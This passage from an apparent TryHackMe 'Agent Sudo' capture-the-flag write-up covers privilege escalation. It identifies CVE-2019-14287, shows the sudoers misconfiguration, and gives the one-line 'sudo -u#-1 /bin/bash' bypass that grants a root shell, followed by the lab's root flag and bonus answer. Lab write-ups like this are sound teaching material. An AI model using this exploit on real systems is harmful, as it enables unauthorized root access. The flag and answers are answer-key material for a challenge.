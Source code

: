 Answer: `Roswell alien autopsy`

## [Task 5] Privilege escalation

### 5.1 CVE number for the escalation  (Format: CVE-xxxx-xxxx)

Googling for the terms `cve privileges escalation sudo` quickly points to `CVE-2019-14287`.

### 5.2 What is the root flag?

The `CVE-2019-14287` vulnerability is explained as follows:

*"A flaw was found in the way sudo implemented running commands with arbitrary user ID. If a sudoers entry is written to allow the attacker to run a command as any user except root, this flaw can be used by the attacker to bypass that restriction."*

This is exactly the case on the server:

~~~
$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
~~~

Our user (`james`) can run `/bin/bash` as any user (`ALL`) except as root (`!root`). Let's exploit the vulnerability:

~~~
james@agent-sudo:~$ sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
~~~

### 5.3 (Bonus) Who is Agent R?

The message discloses the information:
~~~
DesKel a.k.a Agent R
~~~